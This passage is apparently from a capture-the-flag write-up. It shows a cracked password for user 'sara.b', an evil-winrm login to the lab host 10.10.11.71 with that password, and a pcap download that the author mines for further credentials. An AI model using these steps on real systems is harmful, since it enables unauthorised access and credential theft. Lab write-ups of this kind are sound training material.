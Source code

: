 ```bash
Progress.........: 12224/14344385 (0.09%)
Rejected.........: 0/12224 (0.00%)
Restore.Point....: 12220/14344385 (0.09%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-16
Candidate.Engine.: Device Generator
Candidates.#1....: asdasdasd -> Blink182
Hardware.Mon.#1..: Util: 87%

```

We pwned “sara.b” user now and guess what ? We still didnt got our flag yet. Her password is “Blink182”.

Let’s go ahead and access the shell of our new user using winrm.

```powershell
┌──(sanke㉿vbox)-[~/Downloads/certificate]
└─$ evil-winrm  -i 10.10.11.71 -u sara.b -p Blink182                                                      
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Sara.B\Documents>
```

And we still don’t have the user.txt flag yet. When enumeration the /Documents folder. I found a pcap file so what i did is downloading the pcap file and opened it using a graphical tool called “NetworkMiner” to get all the credentials from the file and also the files that i can download them.

```powershell
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> download WS-01_PktMon.pcap
                                        
Info: Downloading C:\Users\Sara.B\Documents\WS-01\WS-01_PktMon.pcap to WS-01_PktMon.pcap
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01>
```
